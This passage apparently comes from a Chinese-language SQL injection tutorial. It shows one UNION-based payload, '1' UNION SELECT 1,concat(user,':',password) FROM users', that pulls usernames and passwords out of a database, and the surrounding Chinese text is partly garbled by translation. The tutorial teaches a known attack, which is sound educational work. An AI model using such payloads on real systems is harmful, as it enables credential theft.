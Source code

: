 ![UNION-based SQL Injection data extracted](img/34182f9069b3fd0e8a60780c10bce2f3.png)

使用这两个查询，我们提取了表名 ***用户*** 和列名 ***用户 id*** ， ***名字*** ， ***姓氏*** ， ***用户*** ， ***头像*** ， ***最后 _ 登录*现在，使用下面的查询，我们可以从数据库中获取应用程序用户的用户名和密码:**

`1' UNION SELECT 1,concat(user,':',password) FROM users;- -`

![UNION-based SQL Injection extracting passwords](img/0134b4009908c3f7ab482eb28f31f052.png)
